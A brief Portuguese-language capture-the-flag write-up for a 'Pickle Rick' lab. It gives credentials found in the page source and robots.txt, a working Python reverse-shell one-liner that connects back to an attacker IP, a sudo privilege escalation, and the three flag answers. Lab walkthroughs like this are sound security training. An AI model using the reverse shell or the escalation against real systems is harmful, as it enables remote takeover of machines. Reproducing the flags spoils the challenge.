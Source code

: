 CTF PICLE RICK
 
 <br>

VISUALIZANDO O CODIGO FONTE: 

    Username: R1ckRul3s

<br>

Pelo Dirb encontrava o login.php, robots.txt 

<br>

ROBOTS.TXT

    Wubbalubbadubdub


<br>
FALHA RCE: Ao acessar o painel.php tinha acesso a dar comands ao back-end assim podendo executar um comando em python para criar uma porta e se conectar ao meu dispositivo <br>

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.93.190",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'




Escalar privilegio, user www-data executava como root <br>
    
    sudo bash -i


FLAGS

    Flag 1: mr meeseek hair 
    Flag 2: 1 jerry tear  
    Flag 3: fleeb juice